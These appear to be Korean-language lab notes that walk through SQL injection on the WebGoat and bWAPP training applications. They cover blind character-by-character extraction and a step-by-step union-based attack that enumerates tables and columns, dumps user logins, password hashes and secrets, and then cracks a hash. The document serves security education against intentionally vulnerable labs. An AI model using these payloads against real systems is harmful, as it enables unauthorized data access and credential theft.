 ### Blind String SQL Injection

* Q. WebGoat > Injection Flaws > Blind String SQL Injection
  pins 테이블에서 cc_number의 값이 4321432143214321인 name 컬럼의 값을 구하시오.
  * select * from accounts where account_no = 101 and (select substr(name,1,1) from pins where cc_number = '4321432143214321') = 'J'
  * select * from accounts where account_no = 101 and (select substr(name,2,1) from pins where cc_number = '4321432143214321') = 'i'
  * select * from accounts where account_no = 101 and (select substr(name,3,1) from pins where cc_number = '4321432143214321') = 'l'
  * select * from accounts where account_no = 101 and (select name from pins where cc_number = '4321432143214321') = 'Jill'
  * 숫자화 하여 범위 연삭
    select * from accounts where account_no = 101 and (select ascii(name) from pins where cc_number = '4321432143214321') = 74

### Union based SQL Injection

* Q.  bWAPP 접속하여 admin 탈취 (Union based SQL Injection)
  @Kali#2에서 브라우저 실행 후 http://Kali#1/bWAPP 로 접속 (bee / bug)![img](https://lh4.googleusercontent.com/3xzxgd72z-KJRAiXa8ITOtFJ67xjpHcrDy9tYoKqZCggprnfYIVwtOemziUAQ3TCY7m6rGWpTP-mHpXV4qqvYH9mM_S9Rue8w39vfWGSsgi7VgZRubAumt770sgxryZ60KO9pYaD)접속이 되지 않는 경우 @Kali#1에서 아래 명령어를 실행root@kali:~# service mysql startroot@kali:~# service apache2 start

  Choose your bug: SQL Injection (GET/Search) 선택 후 Hack 버튼 클릭![img](https://lh3.googleusercontent.com/Jl2p_SjcGoKmPWlcnSgEaMoEJDoYlAFMpqjjG-W0cZvuhTGSwmUMMQMRq0V-ovRGUEE2_H5Un-v9oib0-_L3mxb-CUMNjTqg3mH1PLEsOZ2N3uU3S4Md0HbFOo9lKej6BM0Yw4JD)영화 정보를 제공하는 서비스

  * man' 입력
    ⇒ Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1 ⇒ … where title like '%man'%' ⇐ SQL Injection
  * #1 컬럼 개수 조회man' order by 1 #
    :man' order by 8 #Error: Unknown column '8' in 'order clause' 
    ⇒ 컬럼의 개수는 7개이다.
  * #2 UNION 구문을 이용해서 숫자를 출력
    man' and 1=2 union select 1,2,3,4,5,6,7 #
    Title Release Character Genre IMDb2 3 5 4 Link ⇐ 2, 3, 4, 5번째 컬럼 정보만 사용자 화면에 출력된다.
  * #3 UNION 구문을 이용해서 DB 정보를 조회
    man' and 1=2 union select 1,2,**version()**,4,5,6,7 #
  * #4 information_schema.tables 시스템 테이블을 이용해서 사용자 테이블을 조회
    man' and 1=2 union select 1,**table_name**,3,4,5,6,7 from **information_schema.tables** #
  * #5 users 테이블에 컬럼 정보를 조회 (information_schema.columns)man' and 1=2 union select 1,**column_name**,3,4,5,6,7 from **information_schema.columns where table_name = 'users'** #
  * #6 users 테이블에서 id, login, password, secret, email 정보를 조회man' and 1=2 union select 1,**id, login, password, concat(secret,' : ',email)**, 6, 7 from **users** #![img](https://lh6.googleusercontent.com/dEhj6ar1lJqRt9Aa8nqkjEyeJWJspT_bsKVEWKeCDLgTDgAg5KK-awdXIMm2XkdPDuaFM6j1h_3zjHE87mF-p0r1tt7UresWNzhDzFrTu0nrGk1KXLVNP6oY7yesKGSRGQMpKocb)
  * 암호화되어 있는 패스워드를 크래킹 = 6885858486f31043e5839c735d99457f045affd0
    https://crackstation.net/


